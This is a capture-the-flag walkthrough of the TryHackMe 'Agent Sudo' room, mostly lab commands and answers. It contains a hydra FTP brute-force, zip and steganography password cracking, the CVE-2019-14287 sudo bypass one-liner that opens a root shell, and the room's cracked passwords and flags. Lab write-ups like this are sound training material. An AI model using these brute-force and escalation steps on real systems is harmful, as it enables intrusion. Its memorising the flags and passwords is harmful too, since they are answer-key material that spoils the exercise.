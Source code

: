```yaml
---
description: 'https://tryhackme.com/room/agentsudoctf'
---
```


# Agent Sudo

## INIT

```text
export agentsudo=10.10.172.140
ping $agentsudo

echo "10.10.172.140 agentsudo.thm" >> /etc/hosts
```

## Task 2 Enumerate

```text
nmap -v -sC -sV -O -T5 -p1-65535 agentsudo.thm
```

### How many open ports?

![](../.gitbook/assets/image%20%28448%29.png)

{% hint style="success" %}
3
{% endhint %}

### How you redirect yourself to a secret page?

![](../.gitbook/assets/image%20%28435%29.png)

> Switch User-Agent to C

![](../.gitbook/assets/image%20%28399%29.png)

{% hint style="success" %}
User-Agent
{% endhint %}

### What is the agent name?

{% hint style="success" %}
Chris
{% endhint %}

## Task 3 Hash cracking and brute-force

### FTP password

```text
hydra -l chris -P /usr/share/wordlists/rockyou.txt ftp://agentsudo.thm -t 50
```

![](../.gitbook/assets/image%20%28404%29.png)

{% hint style="success" %}
crystal
{% endhint %}

### Zip file password 

![](../.gitbook/assets/image%20%28388%29.png)

```text
binwalk -e cutie.png

zip2john 8702.zip > ziphash.txt
john ziphash.txt --wordlist=/usr/share/wordlists/rockyou.txt
```

![](../.gitbook/assets/image%20%28381%29.png)

{% hint style="success" %}
alien
{% endhint %}

### steg password 

```text
steghide extract -sf cute-alien.jpg
```

![](../.gitbook/assets/image%20%28420%29.png)

{% hint style="success" %}
Area51
{% endhint %}

### Who is the other agent \(in full name\)? 

{% hint style="success" %}
james
{% endhint %}

### SSH password

{% hint style="success" %}
hackerrules!
{% endhint %}

## Task 4 Capture the user flag

### What is the user flag?

![](../.gitbook/assets/image%20%28402%29.png)

{% hint style="success" %}
b03d975e8c92a7c04146cfa7a5a313c7
{% endhint %}

### What is the incident of the photo called?

```text
scp james@agentsudo.thm:/home/james/Alien_autospy.jpg .
```

![](../.gitbook/assets/image%20%28405%29.png)

{% hint style="success" %}
Roswell Alien Autopsy
{% endhint %}

## Task 5 Privilege escalation

```text
sudo -l
```

![](../.gitbook/assets/image%20%28434%29.png)

### CVE number for the escalation 

![](../.gitbook/assets/image%20%28382%29.png)

![](../.gitbook/assets/image%20%28439%29.png)

{% hint style="success" %}
CVE-2019-14287
{% endhint %}

### What is the root flag? 

```text
sudo -u#-1 /bin/bash
cat /root/root.txt
```

{% hint style="success" %}
b53a02f55b57d4439e3341834d70c062
{% endhint %}

### \(Bonus\) Who is Agent R?

![](../.gitbook/assets/image%20%28394%29.png)

{% hint style="success" %}
DesKel
{% endhint %}

